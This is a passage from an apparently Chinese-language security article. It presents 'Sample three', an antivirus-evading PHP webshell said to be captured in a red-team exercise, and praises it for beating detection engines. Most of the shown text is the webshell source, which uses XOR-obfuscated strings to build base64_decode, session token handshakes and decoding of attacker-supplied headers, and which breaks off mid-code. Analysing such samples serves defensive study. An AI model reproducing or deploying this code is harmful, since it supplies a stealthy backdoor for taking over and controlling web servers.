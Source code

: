 ![样例二成功执行命令.png](assets/1698896037-af2b61a8037dbc59e428ed62336da443.png)

### 12.3 样例三

这个免杀马是在近期某大型攻防演练中捕获到的，也是能过一众查杀引擎~  
这个样例使用了异或 + 编解码转换 + 参数加解密回调 + 密钥协商的手法，成功规避了语义分析和正则匹配式，具有实战意义

这个 WebShell 和冰蝎马等具有相似性，各位师傅不妨可以看看原理：

```php
<?php
session_start();

function set_token($v,$t) {
    $r="";
    for ($x=0; $x<strlen($v);$x++) {
        if(($x+1)%strlen($t)!=0) {
            $r.=chr(ord(substr($v,$x,$x+1))^ord(substr($t,$x%strlen($t),($x+1) % strlen($t))));
        } else {
            $r.=chr(ord(substr($v,$x,$x+1))^ord(substr($t,$x%strlen($t),16)));
        }
    }
    return $r;
}

if (isset($_SERVER["HTTP_TOKEN"])) {
    $t=substr(md5(rand()),16);
    $_SESSION['token']=$t;
    header('Token:'.$_SESSION['token']);
} else {
    if(!isset($_SESSION['token'])) {
        return;
    }
    $v=$_SERVER['HTTP_X_CSRF_TOKEN'];
    $b='DQHNGW'^'&0;+qc';
    $b.= '_dec'.chr(111).'de';
    $v=$b($v."");

    class E {
        public function __construct($p) {
            $c=('ZSLQWR'^'82?4af')."_d"."eco".chr(108-8)."e";
            $e = $c($p);
```